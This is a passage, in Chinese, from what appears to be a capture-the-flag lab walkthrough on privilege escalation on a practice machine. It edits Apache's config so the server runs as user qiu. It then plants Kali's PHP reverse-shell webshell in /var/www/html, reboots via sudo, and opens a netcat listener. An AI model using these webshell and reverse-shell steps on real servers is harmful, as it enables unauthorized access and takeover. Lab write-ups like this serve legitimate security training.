 

# 提权

## 提权至qiu

修改`apache2`的配置文件

```shell
# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}		
Group ${APACHE_RUN_GROUP}
#在这个位置添加下面两句
User qiu
Group qiu
```

![](./pic-torment/42-1.jpg)

然后根据前面的直接测试可能不行，那么就通过网站的`webshell`进行测试吧，首先创建一个反弹`shell`，这里可以使用`kali`中自带的一个文件`/usr/share/webshells/php/php-reverse-shell.php`

只需要修改其中的`ip`地址为`kali`的地址即可，反弹的端口可以默认。至于为什么用`php`语言，啧，自己去测试就知道了。

把这个文件下载到靶机内，保存到可以访问的网站目录`/var/www/html`

![](./pic-torment/43.jpg)

这时候执行`sudo /bin/systemctl reboot`重启靶机，这样会连带着`apache2`重启，配置文件可能会重载

这时候在`kali`使用`nc`开启一个监听

```shell
nc -lvnp 9999
```
